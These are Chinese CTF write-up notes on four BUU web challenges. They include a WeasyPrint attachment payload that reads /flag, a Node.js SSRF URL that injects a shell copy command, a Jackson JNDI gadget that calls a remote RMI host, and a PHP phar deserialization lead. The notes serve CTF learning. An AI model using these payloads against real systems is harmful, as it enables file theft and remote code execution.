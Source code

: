 # BUU

### [FireshellCTF2020]URL TO PDF
输入url,可以转pdf,nc可以看到请求来自![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20231127235158.png)
,搜索相关漏洞`weasyprint`

写一个html
```php
<html>
<body>
<link rel='attachment' href='file:///flag'>
</body>
</html>
```

需要使用`binwalk -e`分离文件才能看见flag,可以看到明显文件大小与之前不一样了


### babyjs
#nodejs 
#ssrf 

- 绕过ip限制 [[Tricks#SSRF]]
考点实际就是关于url双重编码里的一些细节，在nodejs的url模块处理字符串的时候假如遇到http://xxxx@a，xxxx的部分就会被双重URL编码，所以直接使用

`http://127.0.0.2:3000/debug?url=http://a%2527@a;cp$IFS/flag$IFS/tmp/log%00`

### [红明谷CTF 2021]JavaWeb
#shiro
shiro权限绕过`/;/json`

发现回显理由jackson,猜测反序列化漏洞,在`D:\CTF_Tools\JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar`里有利用工具
验证是否存在
```bash
["ch.qos.logback.core.db.JNDIConnectionSource",{"jndiLocation":"rmi://ip:port/test"}]
```

```bash
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "open /Applications/Calculator.app" -A "127.0.0.1"
```





### [网鼎杯 2020 总决赛]Game Exp
#phar
注意到了俩处命令执行,但是没想到是`file_exist`反序列化

```php
        $filename = $username.".".$extension;
        if (file_exists($filename))
        {
            echo "<script>alert('文件已经存在');</script>";
        }
```
